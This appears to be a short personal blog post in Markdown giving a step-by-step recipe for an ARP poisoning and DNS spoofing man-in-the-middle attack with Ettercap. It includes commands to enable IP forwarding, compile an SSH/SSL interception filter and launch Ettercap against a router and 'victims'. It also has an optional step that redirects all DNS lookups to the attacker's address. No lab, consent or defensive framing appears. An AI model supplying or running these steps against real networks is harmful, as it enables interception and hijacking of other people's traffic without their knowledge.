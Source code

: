 ```yaml
---
layout: post
title: Ettercap-ARP+DNS欺骗
subtitle: arp中间人
author: Kingtous
date: 2019-10-11 09:17:30
header-img: img/post-bg-unix-linux.jpg
catalog: True
tags:
- 计算机网络
typora-root-url: ../
---
```


> - Package :ettercap
> - System: Linux

### Step.1 enable net.ipv4.ip_forward

To allow system to accept network packages to pass through your computer.

`sudo sysctl -w net.ipv4.ip_forward=1`

### Step.2 compiile ssh.ef for SSL Connections

Enable SSL Hacking

```shell
cd /usr/share/ettercap
sudo etterfilter etter.filter.ssh -o ssh.ef
```

### Step.3 Open Ettercap with ssh.ef

```shell
sudo ettercap -G -F ssh.ef
```

![1570756980523](/img/unsorted/1570756980523.png)

**3.1** Select Interface

**3.2** Scan and add targets

> PS: Target1:Router Target2:victims

![1570757130076](/img/unsorted/1570757130076.png)

**3.3** ARP Poisoning

![1570757163708](/img/unsorted/1570757163708.png)

(Optional Part)

**3.4** enable DNS Proofing

> sudo vim /etc/ettercap/etter.conf
>
> \# clear all and add your `* A your_ip_address_you_want_to_redirect `

and load plugin `dns_spoof`

![1570757272310](/img/unsorted/1570757272310.png)

**3.5** All done.
